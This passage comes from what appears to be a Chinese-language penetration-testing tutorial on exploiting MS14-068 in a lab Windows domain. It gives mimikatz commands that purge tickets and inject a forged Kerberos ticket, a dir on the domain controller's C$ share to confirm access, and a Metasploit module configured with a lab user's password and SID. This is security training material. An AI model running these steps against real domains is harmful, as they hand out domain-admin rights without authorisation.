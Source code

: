 #### 清除内存中所有票据

如果目标主机上内存中有票据的话，我们需要把票据都清除：

```
kerberos::purge
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxFnybBZZ670zw4x1nJqku5CnYOCr8KSKbf0icvumyvg26UvlWpE6vkhw/640?wx_fmt=png)

#### 将高权限票据注入内存

将票据文件复制到 Mary win7 的机器下的 mimikatz 目录下，使用 mimikatz 将票据注入内存：

```
kerberos::ptc "票据文件"
kerberos::ptc "TGT_mary@god.org.ccache"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxmnJdZSbkPL5y1oLyMDGQSp9F6iawq1EPsv7bIogwiagbo30w7nbfq2ww/640?wx_fmt=png)

显示 Injecting ticket：OK ，表示注入成功！

#### 验证权限

使用 dir 列出域控制器 C 盘的内容，这个时候就可以了：

```
dir \\OWA2010CN-God\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxwzBQFbLqdgUckc1HVzqHZCp6UCod0KuEHbmuHM65rtIY684ELa0Nrw/640?wx_fmt=png)

**Metasploit 中进行测试**

在 MSF 中，也有一个针对 MS14-068 漏洞利用的模块：

```
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxNXyF3D7eZqr8oMfrVLsJIyBbeXhjCpAQB4TVX7mMY1FDdxtewazbSw/640?wx_fmt=png)

它只需要输入域名、被提权用户的密码、被提权用户、被提权用户的 SID，域控制器的 IP：

域成员：mary

域名：god.org

mary 的 sid：S-1-5-21-1218902331-2157346161-1782232778-1124

域控制器地址：192.168.2.25

域成员 mary 的密码：admin!@#45

```
set domain god.org
set password admin!@#45
set user mary
set user_sid S-1-5-21-1218902331-2157346161-1782232778-1124
set rhosts 192.168.2.25
run
```

